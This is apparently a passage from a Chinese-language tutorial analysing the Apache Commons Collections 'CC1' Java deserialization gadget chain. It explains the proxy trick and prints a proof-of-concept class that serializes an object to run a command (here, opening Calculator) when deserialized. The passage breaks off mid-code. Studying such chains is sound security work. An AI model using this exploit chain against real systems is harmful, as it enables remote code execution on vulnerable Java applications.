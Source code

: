    其次，我们最好调用一个返回类型为void还是Object的方法，因为命令执行完会返回一个Process对象，如果返回值为其他类型的虽然可以执行命令但会抛出一个ClassCastException异常。因此我选择了返回值为void的free()方法。

但是到了这个时候假如我们直接反序列化这个代理那实际上是不可以执行命令的。代理对象被序列化和反序列化时，真正被序列化和反序列化的是InvocationHandler对象，而不是代理对象本身。所以对于上面的代理对象，相当于在反序列化的时候实际上重构的是一个InvocationHandler对象。而InvocationHandler对象是不具有**（每个方法调用都会被转发到中间类的invoke方法进行调用）**这一特性的。具体来说对于此时重构的对象来说，其拥有的属性来自于

```java
Object anno = constructor.newInstance(Retention.class,lazymap);
```

的传递，而后续在readObject方法中对map执行的方法也是针对于lazymap这个对象执行的，这个对象并不具有**（每个方法调用都会被转发到中间类的invoke方法进行调用）**这一特性(因为其并不是一个代理对象)

那么知晓了这一问题，其实解决方法也就很简单了，我们要是可以再多做一步，第二个传入的参数不是lazymap，而是一个代理对象，那就可以实现这一目的了，POC如下：

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;

import java.io.IOException;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.annotation.Retention;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.InvocationTargetException;
import java.lang.reflect.Proxy;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.HashMap;
import java.util.Map;

public class cc1 {
  public static void main(String[] args) throws ClassNotFoundException, NoSuchMethodException, InvocationTargetException, InstantiationException, IllegalAccessException, IOException{
    ChainedTransformer chainedTransformer = new ChainedTransformer(
      new Transformer[]{new ConstantTransformer(Runtime.class),
                        new InvokerTransformer("getMethod", new Class[]{String.class,Class[].class},
                                               new Object[]{"getRuntime",null}), new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                        new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"open -a Calculator"})});
    HashMap<Object, Object> hashMap = new HashMap<>();
    hashMap.put("value",1);
    Map lazymap = LazyMap.decorate(hashMap, chainedTransformer);

    Class<?> c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
    Constructor<?> constructor = c.getDeclaredConstructor(Class.class, Map.class);
    constructor.setAccessible(true);
    Object anno = constructor.newInstance(Retention.class,lazymap);
    Map proxyInstance = (Map) Proxy.newProxyInstance(Map.class.getClassLoader(), new Class<?>[] {Map.class}, (InvocationHandler) anno);
    Object obj = constructor.newInstance(Retention.class,proxyInstance);
    serialize(obj);
    unserialize();
  }
  public static void serialize(Object obj) throws IOException {
    ObjectOutputStream oos = new ObjectOutputStream(Files.newOutputStream(Paths.get("ser.bin")));
    oos.writeObject(obj);
  }

```